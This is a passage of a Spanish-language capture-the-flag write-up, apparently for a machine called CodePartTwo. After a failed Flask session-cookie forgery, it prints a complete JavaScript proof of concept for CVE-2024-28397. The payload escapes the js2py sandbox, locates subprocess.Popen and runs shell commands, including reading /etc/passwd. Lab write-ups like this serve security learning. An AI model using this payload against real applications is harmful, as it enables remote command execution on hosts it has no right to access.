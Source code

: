 ![Cookie sign](images/codeparttwo_cookie_sign.PNG)

Al inyectar la nueva cookie de admin obtengo un error, por lo que toca mirar otros vectores.

![Cookie error](images/codeparttwo_cookie_error.PNG)

[Flask default session interface](https://flask.palletsprojects.com/en/stable/api/#:~:text=class%20flask.sessions.SecureCookieSessionInterface)
[Flask Unsign](https://github.com/Paradoxis/Flask-Unsign)

#### CVE-2024-28397 - Sandbox Escape en js2py

En el fichero `app/requirements.txt` se observa que funciona con `js2py 0.74`. En esta versión, existe una vulnerabiliad en la implementación de una variable global dentro de js2py, permitiendo a un atacante obtener la referencia a un objeto Python en el entorno js2py, lo que permite `escapar del entorno JS y ejecutar comandos arbitrarios` en el host. Destacar que `evade la restricción de js2py.disble_pyimport()`, utilizada para impedir que el código JS escape del entorno.

PoC:

```javascript
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator;"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
```